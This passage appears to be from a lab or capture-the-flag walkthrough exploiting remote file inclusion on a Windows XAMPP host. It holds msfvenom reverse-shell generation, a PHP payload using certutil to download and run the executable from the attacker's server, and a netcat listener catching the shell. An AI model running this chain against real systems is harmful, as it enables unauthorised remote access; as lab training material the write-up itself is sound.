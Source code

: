 ```bash
Now that we have confirmed the target is vulnerable to RFI, and we know we can execute arbitrary code, let’s create a reverse shell executable.

┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
The following PHP code will download our shell to the target:

┌──(kali㉿kali)-[~]
└─$ cat pwn.php                                                                    
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.68/shell.exe" shell.exe', $val);
?>
Let’s execute the PHP script and perform the download.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn.php                
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
Our web server log messages indicate that the target downloaded the file.

┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80                                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.68.53 - - [19/Dec/2020 13:03:55] "GET /info.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:05:49] "GET /info.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:48] "GET /pwn.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:51] "GET /shell.exe HTTP/1.1" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:52] "GET /shell.exe HTTP/1.1" 200 -
Now we can modify our pwn.php file to execute the reverse shell.

┌──(kali㉿kali)-[~]
└─$ cat pwn.php 
<?php
$exec = system('shell.exe', $val);
?>
We’ll start a netcat listener on port 445, then trigger the reverse shell.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn.php
Our listener indicates that we have received the shell.

┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvvp 445                                                               
listening on [any] 445 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49719
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>
Escalation
Local enumeration
Now that we have a foothold, let’s escalate our pivileges. We notice that the C://Backup/ directory is writeable.

```